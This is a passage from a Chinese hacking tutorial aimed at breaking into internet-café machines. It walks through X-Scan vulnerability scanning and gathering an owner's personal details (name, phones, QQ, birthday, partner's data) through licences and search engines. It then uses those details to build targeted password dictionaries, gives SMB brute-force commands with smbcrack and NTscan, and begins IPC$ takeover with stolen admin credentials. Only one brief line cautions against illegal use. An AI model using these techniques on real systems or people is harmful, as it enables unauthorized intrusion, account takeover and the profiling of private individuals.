在“检测范围”中我们输入要检测的主机。X-Scan 支持灵活的多主机检测方式，除了只检测一台主机外，你还可以检测指定 IP 段内的主机，或检测指定的几个 IP，以及检测一个文件中保存的所有 IP。点击“指定 IP 范围”后面的“示例”，它会告诉你以什么格式书写 IP 地址。


图2-2-7 扫描模块设置

接着点开“全局设置”，里面有“扫描模块”、“并发扫描”、“扫描报告”和“其它设置”四个项目，首先我们来看“扫描模块”，这里设置的是要扫描的项目，如图2-2-7。

如果你有针对性地扫描的话，则选择其中你要扫描的项目，我们做全面扫描自然是全选，虽然扫描时间会长一些，但能获得更多的信息，付出这点代价还是值得的。其中的一些弱口令扫描只会检测对应服务的常用弱口令和默认口令，消耗时间不长，而时间主要是耗费在漏洞检测上。接着点开“并发扫描”，这里设置的是并发扫描的主机数目和本地线程开启数目，如果你的本地计算机配置不错的话，建议这两个值都可以比默认值稍微大一些。“扫描报告”中设置扫描完毕后生成报告的一些选项，比如报告的文件格式和是否保存主机列表等，保持默认即可，X-Scan 的 HTML 报告看起来很直观和方便，笔者比较喜欢！点击“其它设置”，里面设置的内容如图2-2-8。

一般我们最先选择“跳过没有响应的主机”，如果没有扫描到可用的信息则选择“无条件扫描”后再次扫描。远程主机没有响应并不一定是它不在线，很多时候是因为防火墙拦截请求造成的。所以选择第一个相对于第二个来说对自身要更安全一些，但是很多时候无法得到主机的任何信息。至于下面的两个复选项，我们保持默认即可，其中“使用NMAP判断远程操作系统”在使用其它方法获得远程操作系统类型失败的情况下还是比较有用的。

接着我们点开“插件设置”，这个设置模块包含各扫描插件（即上面设置的那些扫描选项）的相关选项。要知道 X-Scan 的插件支持是相当强大的！在“端口相关设置”中，我们可以设置待检测的端口，这些端口以逗号分隔，或者你也可以使用横线指定扫描一个范围内的端口，比如6000-8000。X-Scan 的端口检测方式有 TCP 和 SYN 两种，其中 TCP 的检测方式速度较慢，较容易被对方发现，但是探测的准确度很高；而 SYN 检测方式的检测速度很快，并且不容易被对方发现，不过经常出现误报。检测方式看具体情况而定，这里仍保持默认。在“预设置名服务端口”中我们可以手工设置端口对应的服务，以在扫描完成后更直观地显示对方开启了哪些服务。端口相关设置如图2-2-9。

在“SNMP相关设置”中，我们可以设置利用 SNMP 获取对方的哪些信息，可以获取的信息有界面信息、TCP/UDP/IP 信息以及 WINS 用户列表信息。X-Scan 的 SNMP 刺探功能有的还是比较有用的，所以这里就全选了。在“NETBIOS相关设置”中，用户可以选择检测哪些 NetBIOS 信息，如图2-2-10。

扫描器最初刺探远程主机系统信息的途径就是通过 NetBIOS，通过139、445等 NetBIOS 端口可以获得哪些信息，图2-2-10已经说明了。从某种意义上讲，NetBIOS 的存在是多么大的安全隐患！而时至今日，它的这个缺陷却被很多人知道了，不过在内网中 NetBIOS 的使用还是相当频繁的，因为它和文件与设备共享有着密不可分的关系。关于 NetBIOS 以及 NETBEUI 的更多内容将在远程密码猜解一节出现，这里我们要知道的是，X-Scan 扫描到的很多目标系统信息都是通过 NetBIOS 获得的。

笔者的建议是 NETBIOS 的检测项目全选，然后来到“漏洞检测脚本设置”，这里设置要使用的漏洞检测脚本，默认为所有脚本，保持即可。下面的“CGI相关设置”和“字典文件设置”均保持默认。如果大家想详细了解 X-Scan 的参数配置，去参考它的帮助文档以及相关教程即可，这里不再多言。


### b、X-Scan扫描报告分析

扫描参数配置完毕后就可以点击界面上的红三角箭头开始扫描了。首先 X-Scan 会加载漏洞脚本，这需要一些时间，不过也和你的本地主机配置有关。待漏洞脚本加载完毕后，X-Scan 就开始逐个项目地检测安全漏洞了。扫描的时候，X-Scan 会占用100%的 CPU，这是正常的。由于默认设置的原因，扫描完成后会自动弹出 HTML 格式的扫描报告，如图2-2-11。

扫描报告给出了扫描时间和扫描结果的综述，这里我只检测了一台主机。X-Scan 将被扫描主机的安全漏洞级别划分为漏洞、警告和提示三类，危险程度逐渐降低。其中漏洞会以红色字高亮显示，非常刺眼。这里我们发现了目标主机的11个漏洞、20个警告和60个提示，看来这台主机是相当不安全了。

在主机摘要中我们看到目标系统的操作系统类型为 Windows 2000，开放了21、23、139、445等端口。

在“主机分析”中就可以查看所有对方开放的端口下可能运行着的服务以及存在哪些安全隐患，如图2-2-12。

在“服务漏洞”一列我们可以清楚地看到对方开启服务的安全漏洞级别，注意那些标示为红色的“发现安全漏洞”。点击“服务/端口”下的超链接就可以直接到达该服务的安全漏洞描述以及解决方案。比如我这里以 microsoft-ds（445/tcp）的这个漏洞为例，这个端口下的漏洞描述等信息如图2-2-13。


图2-2-12 主机分析的信息以及安全漏洞


图2-2-13 漏洞的描述信息

漏洞描述以及安全解决方案都是英文的，因为 X-Scan 使用的漏洞检测脚本来自于强大的漏洞扫描程序 Nessus，有部分脚本被翻译成中文了。通过这些信息我们了解到对方操作系统的 TCP 445 端口存在缓冲区溢出漏洞，从解决方案的链接上可以看出，这个漏洞是 MS04-007，它是可以远程利用的哦！

除了获得目标主机的漏洞信息外，我们还能获得它的其它一些信息，前面说过这些信息都是由 NetBIOS 泄露的，因此我们查看一些 TCP 139 端口的警告和安全提示就可以获得很多系统信息，比如网络共享资源列表和用户列表，如图2-2-14。


图2-2-14 获得网络资源共享和用户列表信息

X-Scan 不仅会获得远程主机的信息，还会对这些信息进行分析和更为详细的描述，这对我们新手来说无疑是非常有用的！有人说 X-Scan 的扫描报告就是一份学习资料，此话果真不假！我们还可以获得的信息包括远程主机的系统服务信息、密码策略、域名和主机名、所安装服务的版本等，这些大家自己去看吧！对于远程密码的猜解不是 X-Scan 的强项，这里我们只要检测了弱口令就足够了。用它我们可以获得远程操作系统的漏洞信息，主要定位在缓冲区溢出漏洞和用户列表以及默认共享等敏感信息上。

## 2.3、社会工程学

社会工程学由来已久，笔者已知的最早利用社会工程学进行黑客活动的人就是网络安全领域的神话：凯文·米特尼克，他也是我最佩服的人之一。不过他已经不干了，现在经营一家和他同名的安全顾问公司。米特尼克不仅是最早运用社会工程学的人，他也是运用社会工程学的最成功典范。凭借着他出色的社工本领，多少网络公司、政府机关以及军队的网络被他入侵，而 FBI 却对他束手无策。他就像无处不在的幽灵一样，以至于当时的人们几乎陷于恐慌。他的天赋和欺骗功夫无人能出其右，被人们誉为天才黑客凯文。

后来凯文不干了，并化身为安全专家帮助个人和企业做安全防御。他还出了一本书《欺骗的艺术》，并到世界各地进行演讲，为人们讲解精巧的欺骗技术。不过社会工程学似乎和欺骗不存在多少联系，但它们都利用了人类固有的心理弱点，那究竟什么是社会工程学呢？

社会工程学（Social Engineering），一种通过对受害者心理弱点、本能反应、好奇心、信任、贪婪等心理陷阱进行诸如欺骗、伤害等危害手段，取得自身利益的欺骗手法。它是使人们顺从你的意愿、满足你的欲望的一门艺术与学问，它同样也蕴涵了各式各样灵活的构思与变化着的因素。无论任何时候，在套取到所需要的信息之前，社会工程学的实施者都必须：掌握大量的相关知识基础，花时间去从事资料的收集与进行必要的如交谈性质的沟通行为。与以往的入侵行为相类似，社会工程学在实施以前都要完成很多相关的准备工作，这些工作甚至要比其本身还要更为繁重。

专业术语的解释难免晦涩，概括性太强，这里我再举个狭义的例子。很多网吧老板为了方便自己记忆或者不容易忘记，将某些系统的密码设置为自己的生日、手机号等，而我们猜透了他的心思，利用他的生日和其它个人信息成功破解了密码，这时候我们就利用了社会工程学。而前面我们说过，网吧客户机的系统密码可能全部都相同或者存在一定规律，而我们正是利用它的这个弱点入侵了对方，这也运用了社会工程学。其实后面我们将要讲到的社工学相关内容就是主要用于后面的远程密码猜解。我们利用管理员的心理弱点将所有可能作为密码的信息获得，然后组合成一个密码集合，并一个一个去匹配正确的密码。要知道设置容易记忆和与个人信息有关的密码的情况是非常普遍的，所以这种方法十分奏效，我们要搜集到所有可能成为密码或密码一部分的信息。

### 2.3.1、物理信息收集

这里所谓的物理就是实地搜集。在米特尼克的时代，他的物理信息搜集通常是到要入侵的公司门口的废纸篓中收集有用的材料。我们要获得与管理员有关的信息，最直接的方法当然不是到网上去查了，不是每个人都会在网上登记自己的个人信息的。首先我们能获得的就是网吧的名称，然后需要了解管理员的一些信息，这些可以从营业执照上得到一些。营业执照上一般都有网吧业主的姓名，至于电话号码以及手机号可以从网吧的宣传资料上获取，或者你间接问别人获得这些信息也未尝不可。物理法搜集到的信息一般情况下是相对公开的，但这并不保证这其中就没有我们要猜解的密码内容。

### 2.3.2、利用搜索引擎

有什么想知道吗？有什么不理解吗？搜一下答案立即就出现在你眼前。搜索引擎的出现改变了人们的生活方式，有时候没有搜索引擎竟会让人感觉不知道在网络上应该何去何从。目前在国内排名第一的自然是百度，排名第二的是 Google。我的个人感觉是搜索中文相关的信息时百度比较好用，而搜索技术相关时 Google 比较好用，因此这里我们就选择百度了。由于涉及到个人隐私的问题，我这里仅简单说说信息搜集的一些目标和方法，就不再做具体的演示和图片示例了。

首先我们得到了网吧业主的姓名，将他的姓名作为搜索的关键字进行搜索。为了缩小搜索范围，你还可以在关键字中加入地名和网吧名称。如果该网吧存在网络上对自己进行宣传的话，你就会看到这个网吧的一些信息，当然联系方式自然不会少了：固定电话、移动电话、E-mail、QQ 等。根据 E-mail 我们也许可以推断出他的网名，而根据 QQ 我们就可以获得更多的信息了！加他的 QQ 为好友并查看其资料，也许还可以获得新的 E-mail 地址哦！另外更有价值的信息也许这时候也会出现了：网名、生日……即使这里无法获得网吧业主的一些个人信息也没有关系，我们可以把他的网名或者 QQ 作为关键字在网上搜索，可能搜索到一些论坛，有他的注册信息哦！从他注册过的论坛上我们也可能获得他的联系方式、生日等个人信息。

获得了 E-mail 后，我们可以尝试利用社会工程学先破解他的电子邮箱密码，因为电子邮箱中可能存在更多的个人信息，比如身份证号等；我们也可以用邮箱取回某个论坛密码，而取回的密码又很可能是他使用的其它服务的密码……

这里假设目标是网吧的某台服务器，而入侵对象如果是网吧客户机的话，貌似获得他的个人信息还是比较难的，不过获得他的 QQ 好像并不是难事，用物理法就可以很轻松办到。除了搜集目标主机使用者的信息外，与使用者关系亲近的人的相关信息也可以利用到，很多人用自己女朋友的生日或者姓名作为密码，这也是很常见的。关于目标个人信息的搜集，这里不再继续讨论，这是个比较敏感的话题，即使你获得了对方大量的个人信息也一定不能有非法的企图，要不然会自食恶果的，也是会让人鄙视的。信息的搜集也是非常灵活和不固定的，关键就在于你能否变通和交互地利用所得到的信息。

## 3、信息整理

关于信息整理的内容原打算并到第二节中，但后来考虑到它的重要性，因此将它独立了出来。的确，这块的东西虽然不多，但是信息整理的结果直接左右了我们将要采用的入侵方法，前面获得信息越多我们可走的路子就越多越广，因此成功率也就越高。这里我们假设获得了不同的信息，综合获得的所有信息可以制订理论上最有效的入侵方案，我想这也是一个黑客的必备技能之一，当然这只是个人见解。下面我们就将根据几种不同的情况选择入侵手段，这些手段我们在后面会一一详细讲解。

### 3.1、远程密码猜解的前提

### 3.1.1、目标操作系统为 Win2000 的情况下

如果你的目标操作系统为 Windows 2000，那么你就极有可能要用远程密码猜解获得对方的系统密码，但这之前是有前提的。没有这些前提的情况下，有时候即使你获得了对方的管理员账户以及密码，也是对它束手无策的。

如果你的目标和你一样是一台客户机，别忘了先尝试破解本地的系统密码，然后利用社会工程学去尝试和本地主机相同的或者存在一定规律的密码是否匹配远程主机密码。如果你运气好（不过这种事情也是经常发生的）就可以直接利用它的某个服务进入系统了，何必劳心劳力地搞什么远程密码猜解呢？获得密码的途径不只一种，在前面的安全漏洞扫描中，如果你获得了远程 NT 主机的管理员弱口令，也就不必专门采取远程密码猜解了，这些情况都是在对方安全防范意识十分淡薄的时候经常遇到。

我们接着来讨论没有获得密码的情况，不过即使你已经获得了密码，在没有一些服务的支持下也是不可能有什么作为的，难道直接去目标主机上登录啊？这里的前提就主要指这些可以利用密码远程控制主机的服务了。通过前面的端口以及安全漏洞扫描，我们可以获得目标主机的大量服务信息，不过能利用密码远程管理系统的只有那么几个。

在扫描中如果我们获得了对方的系统账户名称，并且对方开了139、445端口，那么极有可能对方使用了默认系统配置，开启了默认共享。这时候我们最可能利用的服务就是 IPC$ 管道了。通过它我们可以进行文件上传以及远程文件执行等操作，这种情况采用远程密码猜解是十分适合的，只要猜解那个已知的管理员账号密码就可以了。即使前面我们没有获得远程主机的账户列表，一般将猜解用户名设置为 Administrator，大部分情况下还是匹配的。而如果对方没有开启上述端口，我们还可以利用3389端口的终端服务、21端口的 FTP 服务和23端口的 Telnet 服务，这些服务存在的几率从左到右依次降低，不过在服务器上存在的可能性还是比较大的，比如网吧的 Web 服务器。

### 3.1.2、目标操作系统为 WinXP/2003 的情况下

由于某种原因，IPC$ 管道的远程管理功能在 WinXP/2003 操作系统中已经被严重削弱了，因此即使对方开启了 IPC$，一般情况下也是不会有什么作为的，除非对方没有配置好。在这两种系统下可用的服务就只剩下3389的终端服务、21端口的 FTP 服务和23端口的 Telnet 了。对于在 Windows 2000 下十分受黑客们厚爱的终端服务来说，在这两类操作系统下它也被做了许多限制，使用起来再也没有原来那样方便和隐蔽了，虽然还是有机会对远程主机进行操作，但终究是不爽的，因此剩下的比较好用的就是后两者了。关于 WinXP/2003 的终端服务的利用在下一节会有讲解，这里做个引子。

即使无法使用管理员密码验证，直接入侵 WinXP/2003，猜解它们的密码也是有价值的，它也许可以在其它入侵手段中有所作为。这里同时补充在 Win2000 的情况下，如果前面用社会工程学获得了目标主机系统以及管理员的大量信息，那猜解密码的成功率也是比较高的，这时候采取远程密码猜解也不失为一种比较有用的方法。

### 3.2、首选缓冲区溢出漏洞攻击

缓冲区溢出漏洞是最有效和最直接的远程攻击方式，不过它的表现有时候不很稳定（主要是溢出程序的原因），并且需要注意的细节很多。如果 X-Scan 爆出对方存在某某缓冲区溢出漏洞，那采用溢出攻击当仁不让地应为入侵的首选方法。如果没有爆漏洞，而你获得了远程主机操作系统的版本以及所安装软件的信息，那你就应该根据平时的积累以及搜索引擎的帮助确认操作系统和某个软件是否存在缓冲区溢出漏洞。由于扫描器的漏洞库原因，很多漏洞对方虽然存在，但是扫描器不会爆出来，这时候就需要攻击者自己判断了。一般版本较低的或者补丁号较低的，我们都可以利用一些流行溢出程序攻击对方。要多尝试！还有一种情况是利用端口初步判断对方是否还存在缓冲区溢出漏洞，比如42端口的 WINS 服务器上就存在缓冲区溢出漏洞，139、445端口上的 SMB 服务也存在漏洞。结合这些漏洞的描述以及你获得的服务版本信息，可以初步判断是否可以用缓冲区溢出攻击对方。这里除了需要攻击者掌握大量缓冲区溢出漏洞的信息外，还要求攻击者多次尝试利用不同的漏洞。

### 3.3、ARP 欺骗发生前

在以上攻击不奏效的情况下，我们可以考虑使用 ARP 欺骗攻击对方，不过这也要取决于你最后要达到的目的：是否最终完全控制对方。经过去年的 ARP 病毒洗礼，很多网吧对 ARP 欺骗的防御都空前提高了。一般在比较小型的网吧中实施 ARP 欺骗还是可以的，由于资金和技术等问题使得这些网吧无力购买专用硬件设备对 ARP 欺骗进行有效防范，并且这类网吧的安全意识还是不高的。ARP 欺骗可以引起网络通信受阻和异常，因此在某些场合要慎用。

如果你确认要入侵并控制对方，那目标主机仍然得开启一些服务，这些服务仍然需要密码验证，我们的会话劫持以及嗅探就有用武之地了。可利用的服务有 FTP 的文件传输服务和 Telnet 的远程管理，当然如果有 Web 服务器的话，HTTP 密码也是有利用价值的。

这里只是对将要讲到的几种入侵方法做了有针对性的信息整理，也许还有很多扫描得到的信息你没有使用到，不过它们总是可以派上用场的。入侵的方法绝不止我讲到的这几种，它是在不断进步和变化的。入侵是一门艺术，它是一种综合性很强的行为，我们可以结合多种方法攻击目标主机，只要达到了目的就是成功的入侵。

## 4、远程密码猜解及利用

从本节开始我们就要进入渗透的实战阶段了。自从计算机系统上有了身份认证以来，密码就成了认证机制的第一道防线。早期的系统用户身份认证只使用了密码认证，而不像今天这样各种认证方法百花齐放，也正是因为这个原因，早期的入侵活动只要获得一个账户密码就可以获得一台远程计算机的权限。而正像前面说的那样，当今的计算机系统除了使用密码验证这种最原始的身份认证方式以外，还使用比如 PIN 码、安全码和类似 NTLM 等的验证方法，这或多或少给我们的入侵带来了障碍，因为我们需要的不仅仅是一个字符串了。虽然这样，我们仍需要掌握远程密码猜解及其利用方法，而现在很多系统仍然只采用密码验证身份，这也是我们要学习的目的之一，当然是因为这些系统大多数是不安全的。现在国内这样的主机还是蛮多的，尤其是在内网中，空密码、弱口令处处可见，这些都给了入侵者机会。虽然使用远程猜解密码来获得远程系统权限的方法很老了，但如果利用成功的话，往往得到的权限也是很大的（比如一些 WEB 程序、论坛博客之类的），权限有了，还有什么不能做呢？

首先你要明白，要想利用密码进入对方系统，对方必须开启了一些可以利用密码远程管理的服务才可以，否则就算你有再多的密码又有什么用呢？本节要讲到的都是一些基于 NT 系统（Windows 2000 及以上的系统）常见的系统服务，不会涉及到 WEB 程序。这些服务有的是用来给管理员的远程管理带来方便，而方便的后果往往是不安全；有的则是系统默认开放的，由于管理员安全意识淡薄，没有考虑到这个服务潜在的安全问题而置之不理，这些都可以被我们利用。

而涉及远程管理的服务，比如 FTP、Telnet 和我们最爱的终端服务（即 3389），这四种最为常见。Windows 是一个为用户考虑得很周到的操作系统，一个系统账户都具有远程使用系统默认自带的一些服务的权利，比如共享、Telnet 和终端服务。也就是说我们可以使用一个账户享受这三种服务，当然前提是这些服务都开启了。这的确十分方便，但也埋下了安全隐患。一台 Windows 服务器一般会开上面提到的三个服务中的一到两个，而究竟是哪个服务，我们在前面的扫描部分已经解决了。这里假设目标主机开了其中至少一个服务，因此我们只要通过其中一个服务获得一个账号和密码，就可以使用目标主机的其他服务进行远程控制了。接下来我们以通过默认共享远程猜解密码为例来讲解。

## 4.1、SMB 下远程猜解密码全解

### 4.1.1、SMB 与 NTLM 验证机制

在 Windows 9x 的时代，Windows 就使用 **NETBIOS（Net Basic Input Output System，网络基本输入输出系统）** 实现网络上文件和设备（比如打印机）的共享。NETBIOS 使用一种协议实现网络共享，微软把这种协议叫做 **SMB（Server Message Block）**，即服务消息块协议，它是网络共享文件、设备（比如打印机）、命名管道和邮箱之间操作数据的协议。SMB 在 Windows 上的实现方式最常见的是 **NBT（NetBIOS Over TCP/IP）**，具体到应用上就是安装 NETBEUI（**NETBIOS Extended User Interface，网络基本输入输出系统扩展用户接口**）协议并把它正确地绑定到 TCP/IP 上。具体实现细节我们不用关心，网吧管理员早就给我们设置好了，在网吧环境下，文件共享是最基本的也是最重要的网络服务之一。至于 NETBEUI 协议和 SMB 协议之间的问题也不在我们的讨论范围之列，本文将以 SMB 为讲解对象。

SMB 协议使用 **TCP 端口 139**，如果 139 端口已经被占用了则使用 **TCP 445** 端口。而对于 NetBIOS 来说，它一个就占用了多个端口，这些端口是 **TCP/UDP 137、138、139**，它们提供基于 NetBIOS 的不同服务，也就是说这些端口都可以被我们利用来访问 NetBIOS，这对我们来说很重要，并且后面我们要利用到。

SMB 默认的验证机制是 **LM/NTLM 验证机制**（LM: LAN Manager Challenge/Response），同时 LM/NTLM 也是 SMB 上使用最广泛的验证机制（不要以为 SMB 只在 Windows 系统上应用）。LM 最初是 IBM 提出来的，但是这个验证机制太脆弱了，很容易被破解。后来微软提出了 NTLM 挑战/响应机制并广泛使用在 Windows NT 系统上，接下来让我们简单看下 NTLM 的验证过程：

- 1. 客户端首先在本地加密当前用户的密码成为密码散列；
- 2. 客户机器向服务器发送登录使用的用户名，注意这个用户名没有加密，是明文发送的；
- 3. 服务器收到后，在自己的机器上产生一个 challenge（挑战），并将它发送给客户端；
- 4. 客户机在自己的机器上用密码散列对获得的 challenge 进行加密，这样就得到了 response（响应）并发送给服务器；
- 5. 服务器得到 response 后，将用户名、challenge 和 response 三个东西发送到控制器或本地的 LSA 中，进行验证；
- 6. 控制器或本地的 LSA 获得以上三个东西，就先取用户名，在自己 SAM 数据库中查找，找到后就提取它的密码散列对 challenge（挑战）进行加密，得到的结果与 response（响应）进行比较。如果相同就通过验证，可以访问，否则拒绝。

这整个过程只是一次 NTLM 验证过程，这个过程在极短的时间内发生。而 SMB 服务器，也可以理解成是我们需要访问的、开了共享的计算机，允许无限次地建立 SMB 连接。熟悉了这些后，我们就可以开始想象远程猜解的方法了。我们完全可以在本地使用一个程序模拟 NTLM 验证的客户端，发送用户名和响应到达 SMB 服务器，直到验证成功为止，这也就是利用 SMB 协议远程猜解密码的原理了。

### 4.1.2、通过 SMB 实现远程猜解密码

远程猜解密码的大体思路已经有了，上文中所谓的程序，网上有很多，这里给出两个程序，它们可以帮助我们大量繁琐的工作。这里我们认为用户名为 administrator，这是最常见的管理员账户名了，当然也不排除存在其他用户名的可能。我们要讲方法，自然简单就好，有必要的话你可以在后面的猜解中自行添加用户名。之所以用 administrator 这个用户，因为它是 Windows NT 系统默认的管理员账户，拥有最高用户权限，也就是说它可以在系统中执行任何操作，我们获得这个账户的密码就可以在远程系统中为所欲为了。

> **[什么是权限]**  
> 权限是从 Windows NT 开始引入的一个概念，我们以 Windows 2000 为例子：Win2000 是多用户操作系统，也就是说它允许在同一时间/空间上多个用户使用同一系统，这些用户在操作系统上完成的任务不同。举个最简单的例子：A 有一台 Win2000，他的同学 B 想用他的电脑学习，但是 A 担心 B 误操作，或者系统中有些东西不想让 B 看到，A 就会在给 B 建立账户的时候给这个账户分配一个权限。这个权限规定了 B 的这个账户哪些操作不可以做，哪些文件夹不可以访问等。可以说一个权限对应着一些限制，当然也存在“无限制”了，这可是管理员的特权哦！

当然，使用前面扫描获得的管理员用户也可以。下面该准备密码了，这就要用到前面收集到的信息，我们需要做一个字典。

## 【什么是字典】

> 呵呵，不是汉语/英文之类的啦，但是这里的字典和现实生活中的没有共通性。这里的字典是一个包含了大量字符串的文件，这个文件通常是文本格式的，比如后缀名为 txt 和 dic 的文件。字符则不是用户名就是密码。这些字符串按照一定的规律在字典中被排列，具体规则要由使用这个字典的程序决定。

这里我们要做一个包含密码的字典，把尽量可能是真实的密码包含在文件中，以在后面的猜解中获得更大的成功率，而接近真实密码的程度就要取决于前面信息收集的是否真实详尽了。即使前面收集到了大量的信息，你也要一个一个把可能是密码的字符串添加到字典中。我们可以使用专业的字典生成器，生成的字典中字符串是这样排列的：

```text
password1
password2
password3
......
```

有的字典是 User:Password 形式的，也就是把用户名和密码放到一个字典中。因为我们前面已经锁定了用户名，所以这里只用密码就够了，并且猜解工具需要的也是这种形式的密码字典。专业远程猜解当然要用专业的字典工具，我们请出专门针对中国人的心理而设计的字典工具——HackerDicBuilder。运行后来到“基本数据”，这里首先设置的是大家最爱使用的密码组合：姓名和生日……于是这样写这个字典，如图 4-1-1。


这里我进行了更为复杂的组合，其实即使这样生成的字典也不会太多少。下一步来到“城市电话”，选择城市后如果你不知道本地的邮政编码或长途区号，可以到百度去看看，然后设置电话，固定电话和手机全部选择，手机号码的地方要充分利用前面获得的信息才更有可能猜解成功。电话号码范围也不要设置太大，否则字典生成会非常大。看我的设置，如图 4-1-2。


下一步来到一些常见英文数字的组合，建议全选，然后再由你自己添加一些前面没有涉及到的经常被用作密码的字符串，比如 5211314、525418 之类的，还有最重要的是，前面获得的目标喜欢使用的字符串，比如他的 ID、昵称之类的，如图 4-1-3。


文件合并选项非常有用。HackerDicBuilder 是一款很老的软件了，有些项目的设置已经达不到我们的要求了，比如前面的生日中月份和日期不可以指定范围，手机号码开头三位不完整等，所以我们要用其他字典制作工具弥补它漏掉的地方。使用其他字典工具生成的字典和 HackerDicBuilder 生成的组合，在这里就可以合并了。在下面的地方选择要合并的文件，上面选择要生成的文件，点击“合并”就可以了，这里不做演示。在下一步中选择前面设置信息的组合复杂程度，越复杂猜解成功率越高，当然密码字典更大，猜解时间更长了。我们选择一般就可以了，然后保存为本地的那个 password.dic，生成字典就可以了。

我看了看，好险好险，现在这个字典已经将近 8.6M，不小了。如果在生日设置或者其他方面你不满意的话，还可以使用其它工具生成有针对性地字典，比如易优超级字典生成器的生日生成功能不错，就可以用它来生成一个生日列表，如图 4-1-4。

再给大家提供一个字典工具——小榕的黑客字典，这两款字典工具都非常强大，放到下面大家自行研究，字典制作就到这里。重点是利用在信息搜集部分获得的目标系统主人的个人信息，越详细越准确越好。


> **[速准指点]**  
> 生成的字典默认打开程序是记事本，要知道它是承受不了大容量文件的。因此，在你手工添加密码到字典的时候直接打开往往容易造成假死，换个程序，写字板或者 Word 之类的文本编辑工具可以解决这个问题。

OK，字典制作好了，可以着手猜解密码了。首先出场的是一款 GUI 界面的远程密码猜解程序——NTscan.exe，它虽然有一些缺点，不过操作简单，很容易上手的，如图 4-1-5。

在“开始 IP”和“结束”处填写需要猜解的主机范围，这里只选择一个目标 192.168.56.23，所以这两处都写这个 IP，因此“主机文件”我们就不用勾选了。使用主机文件可自定义目标 IP，它们可以是无规律的，这些主机的 IP 排列方式和前面的字典是相同的，即一行一个 IP；线程即连接数，线程越高速度越快，但是经过我试验发现效果不是很明显，这个不用管它，随便填也可以；超时不用理会；连接共享选择目标开启的一个共享，这里保持默认。最重要的是下面三项：扫描方式选择“SMB 扫描”，它可是主角哦，并且其他两种方式慢得要死，不信你可以试试；然后把速度调到最大（我想大家电脑的配置是完全能够承受 NTscan 的最高速度的），其他两个选项不要勾选，否则会影响猜解速度，很影响。也许大家会问：用户名和密码字典在哪里指定的啊？孺子可教！NTscan 使用当前目录下的两个字典文件：NT_user.dic 和 NT_pass.dic 获取用户名和密码，并把猜解成功的用户名和密码保存在当前目录的 NTscan.txt 中。虽然它可以自动获取远程主机的用户名列表和记忆功能，这些笔者不得而知，NTscan 的帮助文档太简陋了……配置好以上的项目，把前面生成的字典 password.dic 复制过来，并重命名为 NT_pass.dic 就可以开始猜解了，点击“开始”我们可以看到密码飞速滑过，好快！真的吗，待会儿你就知道了，猜解成功后如图 4-1-6。


大家也许发现了，如果你把 NT_user.dic 中的用户名都删除了，NTscan 还是可以获得用户名的，非常烦人。似乎是先从远程主机获取用户列表自行导入破解，但是我在远程主机上设置“不允许枚举账户”后仍然可以得到用户名……我们没有必要所有的用户都破解，这就是它带来的不便。感觉 NTscan 的优点除了使用简单外，就是可以指定一个 IP 范围，但这在远程猜解并不是很重要的；远程猜解一般目标集中，所以 NTscan 适合寻找存在弱口令的网段。


> **[什么是 Timeout：超时/延迟/延时]**  
> 在使用一些网络程序的时候，我们通常会看到有超时/延迟/延时的设置，这是什么意思呢？网络程序在进行时发出的是多个连接，在发出一个连接后可能存在故障使连接不成功。TCP/IP 协议允许重新连接，但如果是真出错并不是无休止地连接下去，一旦连接时间超过一个指定时间，这个连接将被废弃并进行下一个连接，指定的这个时间就是 Timeout 了。

前面亲自体验过远程猜解密码了，是否等待很枯燥？这方面是因为字典的体积问题，而最重要的是破解速度。直观地看 NTscan 速度似乎很快，但人的眼力究竟可以快到什么地步呢？这就是说它的速度还是相当慢的（龟慢，哈哈！），NTscan 是 GUI 界面的程序，这也是影响它速度的原因。笔者认为一款强大的远程密码猜解工具应该是 **CUI（Console User Interface）** 的，那就让我们来看看什么叫做速度。一款叫做 **Smbcrack** 的命令行下远程密码猜解工具。它最初是由小榕开发的，后来网上有高手发布了后续版本，我们先来看小榕的这个，如图 4-1-7。


很清新简洁的界面，而且它很适合我们的要求。可以指定一个用户名并且使用密码字典。根据图中的命令格式，我的命令为：`smbcrack 192.168.56.23 administrator pass.dic 139`。端口使用 139，不写也可以，因为默认端口就是它。我们来看破解效果，使用一个 97K 的密码文件猜解密码，只用了 15s 就搞定密码了……成功后如图 4-1-8。


> 【迷津指点】如果 Smbcrack 出现 `Connect Failed... No error` 的错误提示，常见原因包括：目标主机未开机/未联网、SMB 端口被防火墙拦截等，可尝试使用其它端口继续猜解。

后人在小榕的 Smbcrack 基础上开发出了更强大的功能和更多的破解方法，看这个程序——**Smbcrack 2.0**，如图 4-1-9。它的可选项很多，这也说明它功能十分强大！我挑主要的选项解释：


- `<option>`
  - `-i`：用来猜解的远程主机 IP
  - `-p`：密码字典文件路径
  - `-u`：用户名列表文件路径（也可用 `-d` 选项从主机获取用户名）
  - `-R`：恢复上次猜解会话
- `[option]`
  - `-w`：从目标主机找用户名并用于破解用户名
  - `-c`：连接数（线程数）
  - `-P`：使用的协议类型（默认 NetBIOS，可指定 NT 模式）
  - `-N`：指定 NTLM SMB 验证方式


注意一定要先指定 `<option>` 中的选项，再指定 `[option]` 下的选项，否则程序将不会响应。这里我的命令为：`smbcrack2 -i 192.168.56.23 -p words.dic -u user.dic -c 10000 -P 1`……Smbcrack 2.0 不仅可用用户字典指定用户名，也可用 `-d` 参数代替 `-u` 从目标主机上获取用户名后猜解。

从图中我们可以看到，Smbcrack2 首先会计算密码数量，然后会预计破解时间。在破解过程中可以感受到速度也很快，和 Smbcrack 不相上下，一般在 800 到 900 左右。成功猜解后会给出猜解速度、用时等信息，显得非常专业。

连续破解，在破解过程中你可以使用 `Ctrl+C` 中止破解，这时候它会有如图 4-1-11 的提示。注意黄字部分，Smbcrack 告诉你恢复信息已经被保存到文件 `words.dic.res` 了，你可以使用 `-R words.dic.res` 恢复这次中断的会话继续猜解……

要想提高破解速度，方案有三种：一是把破解线程增多；二是使用 `-N` 来指定 NTLM SMB 验证方式；三是根据情况使用 `-P` 参数。破解成功的结果如果不用 `-l` 参数指定的话，将保存为以目标 IP 为名称的 `.txt` 文件到当前目录。

真正的远程密码猜解过程远非这里演示的这样简单，破解密码是一件需要耐心的事情，并且其中有运气因素。字典的制作对成功率来说起着至关重要的作用……使用社会工程学较易成功。

## 4.2、利用密码进行远程控制

### 4.2.1、经典的 IPC$ 入侵

我们已经顺利获得了一个具有管理员权限的账户，接下来我们要用获得的密码远程操作目标主机，进而控制它！……我们可以在命令提示符中输入 `net share` 来查看共享信息，如图 4-2-1。


我们可以看到 `C$`、`D$`，在“资源”中可以看到这些共享对应的共享目录，注意它们的注释下写的是默认共享。在这些默认共享中，最有利用价值的同时安全隐患也最大的当属 IPC$ 了。

